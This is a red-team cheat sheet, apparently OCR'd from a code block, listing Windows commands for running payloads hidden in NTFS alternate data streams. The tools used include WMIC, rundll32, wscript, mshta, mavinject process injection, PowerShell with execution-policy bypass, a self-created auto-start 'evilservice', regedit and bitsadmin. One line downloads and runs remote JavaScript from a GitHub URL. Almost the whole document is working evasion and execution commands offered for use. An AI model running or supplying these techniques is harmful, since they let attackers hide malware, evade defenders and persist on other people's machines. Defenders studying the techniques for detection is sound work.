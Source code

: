 ```

###Executing the ADS content###

* WMIC
wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'

* Rundll32
rundll32 "C:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:ADSDLL.dll",DllMain
rundll32.exe advpack.dll,RegisterOCX not_a_dll.txt:test.dll
rundll32.exe ieadvpack.dll,RegisterOCX not_a_dll.txt:test.dll

* Cscript
cscript "C:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:Script.vbs"

* Wscript
wscript c:\ads\file.txt:script.vbs
echo GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js") > %temp%\test.txt:hi.js && wscript.exe %temp%\test.txt:hi.js

* Forfiles
forfiles /p c:\windows\system32 /m notepad.exe /c "c:\temp\shellloader.dll:bginfo.exe"

* Mavinject.exe
c:\windows\SysWOW64\notepad.exe
tasklist | findstr notepad
notepad.exe                   4172 31C5CE94259D4006           2     18,476 K
type c:\temp\AtomicTest.dll > "c:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:Atomic.dll"
c:\windows\WinSxS\wow64_microsoft-windows-appmanagement-appvwow_31bf3856ad364e35_10.0.16299.15_none_e07aa28c97ebfa48\mavinject.exe 4172 /INJECTRUNNING "c:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:Atomic.dll"

* MSHTA
mshta "C:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:helloworld.hta"
(Does not work on Windows 10 1903 and newer)

* Control.exe
control.exe c:\windows\tasks\zzz:notepad_reflective_x64.dll
https://twitter.com/bohops/status/954466315913310209

* Create service and run
sc create evilservice binPath= "\"c:\ADS\file.txt:cmd.exe\" /c echo works > \"c:\ADS\works.txt\"" DisplayName= "evilservice" start= auto
sc start evilservice
https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/

* Powershell.exe
powershell -ep bypass - < c:\temp:ttt

* Powershell.exe
powershell -command " & {(Get-Content C:\ADS\1.txt -Stream file.exe -Raw | Set-Content c:\ADS\file.exe) | start-process c:\ADS\file.exe}"

* Powershell.exe
Invoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = C:\ads\folder:file.exe}

* Regedit.exe
regedit c:\ads\file.txt:regfile.reg

* Bitsadmin.exe
bitsadmin /create myfile
bitsadmin /addfile myfile c:\windows\system32\notepad.exe c:\data\playfolder\notepad.exe
```